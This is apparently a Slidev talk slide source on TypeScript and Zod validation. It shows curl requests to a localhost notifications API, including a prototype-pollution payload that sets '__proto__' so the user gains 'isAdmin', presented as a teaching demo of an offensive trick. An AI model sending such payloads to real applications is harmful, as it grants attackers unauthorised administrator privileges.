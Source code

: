 ```sh {all|5,12,13}
$ curl -X PUT 
  -H 'Content-Type: application/json'
  'http://localhost:8080/users/1/settings/notifications'
  -d '{"notificationType": {"type": "email"}, 
       "notificationMode": ["daily"], 
       "notificationModeValue": "disabled"}'

{ "error": [{
      "code": "invalid_type",
      "expected": "string",
      "received": "array",
      "path": [ "notificationMode" ],
      "message": "Expected string, received array"
    }]}
```

<v-click at="1">

Hurray! 🎉

</v-click>

---
layout: cover
color: red
---

# TypeScript + Zod saves us??? 😱

#### Let's apply another offensive security trick... ☠️

```sh {all|4,12,13}
$ curl -X PUT 
  -H 'Content-Type: application/json'
  'http://localhost:8080/users/1/settings/notifications'
  -d '{"notificationType": "__proto__", "notificationMode": "isAdmin", "notificationModeValue": true}'

User notification setting updated successfully 
```


<v-click at="1">

Congrats, you're a hacker! 👏
</v-click>



---
layout: top-title
color: red-light
---
